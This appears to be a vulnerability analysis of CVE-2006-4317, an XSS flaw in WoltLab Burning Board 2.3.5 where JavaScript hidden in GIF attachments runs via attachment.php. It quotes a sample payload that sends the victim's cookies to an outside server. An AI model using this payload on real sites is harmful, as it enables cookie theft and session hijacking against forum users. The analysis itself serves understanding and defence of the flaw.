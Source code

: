 Based on the provided content, here's an analysis of CVE-2006-4317:

**Root cause of vulnerability:**
The vulnerability stems from a lack of proper input sanitization when handling file attachments in WoltLab Burning Board (WBB) 2.3.5. Specifically, the `attachment.php` file does not adequately filter user-supplied data embedded within attached files.

**Weaknesses/vulnerabilities present:**
- **Cross-Site Scripting (XSS):** The primary vulnerability is XSS, categorized under CWE-79. This occurs because the application allows malicious JavaScript code to be embedded in GIF image attachments. When a user views the attachment, the injected JavaScript is executed in their browser.

**Impact of exploitation:**
- **Cookie Theft:** An attacker can inject JavaScript code that steals user cookies.
- **Session Hijacking:** By obtaining cookies, an attacker could potentially hijack a user's session.
- **Malicious Actions:**  The attacker could perform other malicious actions on the user's behalf, such as changing settings, posting messages, or performing administrative actions.

**Attack vectors:**
- **Malicious File Attachment:** The attack vector is through uploading a specially crafted GIF image file to the forum. The GIF file contains embedded JavaScript code within its data that executes when displayed.
- **`attachment.php`:** The `attachment.php` script is the target, as it retrieves and presents the attachment without sanitizing the embedded code.

**Required attacker capabilities/position:**
- **Forum Access:** The attacker needs to be able to post attachments in a forum using WoltLab Burning Board 2.3.5.
- **Malicious File Creation:** The attacker must be able to create or modify a GIF image file with embedded JavaScript. This can be done using a hex editor.

**Additional Technical Details:**
- The exploit uses a specially crafted GIF image where the GIF header is followed by the javascript code injected as a hex string.
- A sample javascript payload is provided: `<script>img = new Image(); img.src = "http://www.lastforce.com/Z/s.php?"+document.cookie;</script>` which attempts to send the victim's cookies to the attacker's server.
- The vulnerability is triggered when the attachment is viewed using `attachment.php?attachmentid=ID`.
- The provided information states this is a "Low" risk, but the CVSS base score is 6.8/10 with High exploitability of 8.6/10.
